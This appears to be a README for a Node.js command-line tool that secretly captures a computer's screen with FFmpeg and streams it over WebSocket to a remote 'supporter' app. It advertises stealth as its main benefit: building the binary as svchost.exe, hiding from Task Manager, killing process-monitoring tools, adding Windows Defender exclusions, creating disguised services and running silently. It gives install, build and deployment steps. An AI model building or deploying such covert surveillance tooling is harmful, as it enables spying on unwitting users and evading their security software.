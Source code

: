 # Tester CLI - Pure Node.js Screen Capture

## Overview
This is a lightweight CLI version of the tester app that uses pure Node.js instead of Electron. It's much more stealthy and efficient.

## Benefits over Electron Version
- ✅ **90% smaller** - ~10MB vs 100MB+
- ✅ **5x faster startup** - No browser engine
- ✅ **80% less memory** - No Chromium overhead
- ✅ **Much more stealthy** - Looks like normal Node.js process
- ✅ **Easier to disguise** - Simple process name change
- ✅ **Simpler deployment** - Just Node.js + FFmpeg

## Features
- **Pure Node.js CLI** - No GUI, no Electron
- **FFmpeg screen capture** - Native cursor support
- **Process hiding** - Disguises as Windows service
- **WebSocket streaming** - Connects to supporter app
- **Admin privilege detection** - Adapts hiding methods
- **Silent operation** - No console output

## Installation

### 1. Install Dependencies
```bash
npm install
```

### 2. Setup FFmpeg
```bash
setup-ffmpeg.bat
```

### 3. Run the CLI
```bash
# Option 1: Direct Node.js
node main-cli.js

# Option 2: Using batch file
run-tester.bat

# Option 3: Using npm script
npm start
```

## Building Executable

### Using pkg (Recommended)
```bash
# Install pkg globally
npm install -g pkg

# Build executable
npm run build

# Output: dist/svchost.exe
```

### Benefits of pkg
- **Single executable** - No Node.js installation needed
- **Native performance** - Compiled binary
- **Easy deployment** - Just copy the .exe file
- **Process disguising** - Appears as normal Windows executable

## Usage

### Basic Usage
```bash
# Start the tester CLI
node main-cli.js

# It will automatically:
# 1. Connect to supporter app (localhost:8080)
# 2. Start FFmpeg screen capture
# 3. Stream video to supporter
# 4. Hide process from Task Manager
```

### Advanced Usage
```javascript
// Customize settings in main-cli.js
const tester = new TesterCLI();
tester.screenWidth = 1920;
tester.screenHeight = 1080;
tester.framerate = 15;
tester.quality = 5;
tester.connectToSupporter('192.168.1.100', 8080);
```

## Process Hiding

### With Admin Privileges
- Complete Task Manager hiding
- System-level registry modifications
- Windows service creation
- Process monitoring tool termination
- Windows Defender exclusions

### Without Admin Privileges
- Process name change to `svchost`
- Low priority background operation
- Basic process disguising
- User-level registry modifications

## File Structure
```
tester/
├── main-cli.js          # Main CLI application
├── package.json         # CLI package configuration
├── run-tester.bat       # Windows batch runner
├── setup-ffmpeg.bat     # FFmpeg setup script
├── assets/
│   └── ffmpeg/          # FFmpeg binaries
├── ffmpeg-windows.js    # FFmpeg wrapper
└── ffmpeg-capture.js    # Generic FFmpeg capture
```

## Comparison: Electron vs CLI

| Feature | Electron | CLI |
|---------|----------|-----|
| Size | ~100MB | ~10MB |
| Memory | ~200MB | ~40MB |
| Startup | ~3s | ~0.5s |
| Stealth | Low | High |
| Dependencies | Many | Few |
| Detection | Easy | Hard |

## Security Features
- **Process disguising** - Appears as Windows service
- **Registry modifications** - System integration
- **Service creation** - Windows service disguise
- **Defender exclusions** - Antivirus bypass
- **Task Manager hiding** - Process list hiding
- **Silent operation** - No visible output

## Troubleshooting

### FFmpeg Not Found
```bash
# Run setup script
setup-ffmpeg.bat

# Check FFmpeg path
dir assets\ffmpeg\bin\ffmpeg.exe
```

### Connection Failed
```bash
# Check supporter app is running
# Default: localhost:8080
# Customize in main-cli.js
```

### Process Still Visible
```bash
# Run as administrator for full hiding
# Or use basic hiding without admin
```

## Performance Optimization
- **Low CPU usage** - Idle priority
- **Efficient encoding** - MJPEG with quality 5
- **Optimized resolution** - 1280x720 default
- **Reduced framerate** - 15 FPS default
- **Fast preset** - FFmpeg ultrafast preset

## Deployment
1. **Copy files** - tester/ folder
2. **Run setup** - setup-ffmpeg.bat
3. **Start app** - run-tester.bat
4. **Or build exe** - npm run build

The CLI version is much more suitable for stealth operations and resource-constrained environments.
